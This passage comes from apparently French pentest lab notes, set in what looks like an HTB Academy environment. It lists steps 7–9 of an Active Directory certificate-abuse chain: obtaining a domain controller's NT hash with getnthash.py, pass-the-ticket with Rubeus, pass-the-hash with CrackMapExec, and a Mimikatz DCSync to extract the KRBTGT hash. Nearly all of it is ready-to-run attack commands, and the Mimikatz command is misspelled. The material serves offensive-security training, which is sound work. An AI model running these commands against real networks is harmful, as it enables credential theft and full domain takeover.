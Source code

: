 ***

#### <mark style="color:green;">7. (Optionnel) Extraction de l’NT Hash via getnthash.py</mark>

**But :** Obtenir l’NT Hash du compte DC en utilisant la clé AS-REP obtenue lors de la demande du TGT.

**Commande :**

{% code fullWidth="true" %}
```bash
python /opt/PKINITtools/getnthash.py -key <AS-REP_ENCRYPTION_KEY> INLANEFREIGHT.LOCAL/ACADEMY-EA-DC01$
```
{% endcode %}

***

#### <mark style="color:green;">8. (Optionnel – depuis Windows) Demande de TGT et Pass-The-Ticket (PTT) avec Rubeus</mark>

**But :** Sur un hôte Windows, utiliser le certificat pour demander un TGT et charger immédiatement le ticket en mémoire.

**Commande :**

{% code fullWidth="true" %}
```powershell
.\Rubeus.exe asktgt /user:ACADEMY-EA-DC01$ /certificate:<CERTIFICAT_BASE64> /ptt
```
{% endcode %}

***

#### <mark style="color:green;">9. Confirmation et exploitation des privilèges obtenus</mark>

**But :** Vérifier que le ticket est bien importé (par exemple avec `klist`) et utiliser l’accès obtenu pour réaliser d’autres actions (extraction d’informations sensibles, pivot, etc.).

**Exemple d’utilisation avec CrackMapExec :**

```bash
crackmapexec smb 172.16.5.5 -u administrator -H <NTLM_HASH>
```

**Utilisation de Mimikatz pour réaliser un DCSync (extraction de la hash du compte KRBTGT) :**

```mimikatz
tlsadump::dcsync /user:inlanefreight\krbtgt
```

***

#### <mark style="color:green;">Remarques complémentaires :</mark>
